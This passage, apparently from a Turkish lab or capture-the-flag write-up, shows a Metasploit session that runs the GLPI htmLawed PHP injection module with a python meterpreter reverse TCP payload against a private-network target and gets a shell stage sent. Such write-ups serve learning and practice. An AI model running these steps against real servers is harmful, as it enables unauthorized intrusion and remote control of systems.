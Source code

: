 `exploit/linux/http/glpi_htmlawed_php_injection` modulünü kullanabiliriz.



````bash
msf6 > use 0
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/glpi_htmlawed_php_injection) > show options

Module options (exploit/linux/http/glpi_htmlawed_php_injection):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly generated)
   TARGET_URI  /glpi            no        URI where glpi is hosted
   URIPATH                      no        The URI to use for this exploit (default is random)
   VHOST                        no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/glpi_htmlawed_php_injection) > set lhost 10.8.1.33
lhost => 10.8.1.33
msf6 exploit(linux/http/glpi_htmlawed_php_injection) > set rhosts 172.20.1.33
rhosts => 172.20.1.33
msf6 exploit(linux/http/glpi_htmlawed_php_injection) > run

[*] Started reverse TCP handler on 10.8.1.33:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Nix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (24768 bytes) to 172.20.1.33
````